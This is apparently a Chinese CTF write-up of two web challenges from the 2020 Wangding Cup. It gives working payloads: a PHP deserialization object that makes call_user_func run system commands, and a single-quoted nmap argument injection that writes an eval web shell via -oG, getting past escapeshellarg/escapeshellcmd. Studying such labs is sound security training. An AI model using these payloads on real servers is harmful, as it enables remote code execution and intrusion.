




# 网鼎杯 2020 朱雀组

## Web

### phpweb

查看源代码可以发现 form 表单存在注入点，默认执行函数为 `date(Y-m-d h:i:s a)` 。

```html
<form  id=form1 name=form1 action="index.php" method=post>
    <input type=hidden id=func name=func value='date'>
    <input type=hidden id=p name=p value='Y-m-d h:i:s a'>
</form>
```

尝试使用 `system()` 函数直接进行注入，构造 payload `func=system&p=cat /flag` 发现 `system()` 函数被过滤了。

<figure><figcaption></figcaption></figure>

尝试通过 `file_get_contents()` 函数获取 `index.php` 的内容查看被过滤关键字，构造 payload `func=file_get_contents&p=index.php` 可以得到。

<figure><figcaption></figcaption></figure>

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];
​
    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
?>
```

分析上述代码可以发现存在类 `Test` ，并且黑名单中并没有 `unserialize()` 函数，因此可以尝试通过反序列化来解决，先进行序列化的构造。

```php
<?php
    class Test {
        var $p = "ls /";
        var $func = "system";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
​
    $a = new Test();
    echo serialize($a);
    // O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
```

构造 payload `func=unserialize&p=O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}`

<figure><figcaption></figcaption></figure>

发现 `flag` 并没有如愿以偿地出现在根目录，因此通过 `find` 命令与上面同理构造 payload `func=unserialize&p=O:4:"Test":2:{s:1:"p";s:19:"find / -name *flag*";s:4:"func";s:6:"system";}` 。

<figure><figcaption></figcaption></figure>

排除开系统文件可以发现 `/tmp/flagoefiu4r93` 文件，通过构造 payload `func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}` 就得到 flag 了。

### Nmap

先随便输入 `127.0.0.1` 可以得到回显并且发现 Param `f=6f859` 。

构造 Payload 如下

```
f=6f858
```

可以得到报错回显如下

```
Warning: simplexml_load_file(): I/O warning : failed to load external entity "xml/6f858" in /var/www/html/result.php on line 23
```

可以推断出是 xml 输出的，假设当前表达式为

```php
<?php system('nmap '. $_POST['host'] .' -oX')
```

可以通过 `-oG` 输出到文件中，构造 Payload 如下

```
host=<?=eval($_POST[1]);?> -oG shell.php
```

回显 `Hacker...` ，说明存在一定的过滤，试试改成 `phtml` 。

构造 Payload 如下

```
host=<?=eval($_POST[1]);?> -oG shell.phtml
```

回显 `Host maybe down` ，说明传入成功，但是并不能访问 `shell.phtml` ，通过查看源代码才发现还需要进行单引号的绕过（存在 `escapeshellarg()` 和 `escapeshellcmd()` ），因此需要修改 Payload 如下

```
host='<?=eval($_POST[1]);?> -oG shell.phtml '
```

结尾的空格是为了防止 `escapeshellcmd()` 函数使得文件名变成 `shell.phtml\\` 。

通过蚁剑一把梭就可以得到 flag 了。
